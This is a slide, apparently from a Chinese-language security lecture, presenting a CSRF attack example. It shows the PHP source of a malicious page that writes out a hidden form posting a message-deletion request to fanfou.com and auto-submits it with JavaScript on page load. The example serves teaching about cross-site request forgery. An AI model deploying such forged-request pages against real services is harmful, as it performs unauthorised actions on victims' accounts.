

# CSRF攻击-实例1
问题出现在这个恶意站点的文件：http://xeye.us/lab/nice.php，代码如下：
<?php
$s = "<form method='post' action='http://fanfou.com/home'>";
$s = $s."<input type='text' value='CI1z1FVs59Y' name='msg' style='display:none!important;display:block;width=0;height=0' />";
$s = $s."<input type='text' value='msg.del' name='action' style='display:none!important;display:block;width=0;height=0' />";
$s = $s."</form>";
$s = $s."<script>document.forms[0].submit();</script>";
echo($s);
?>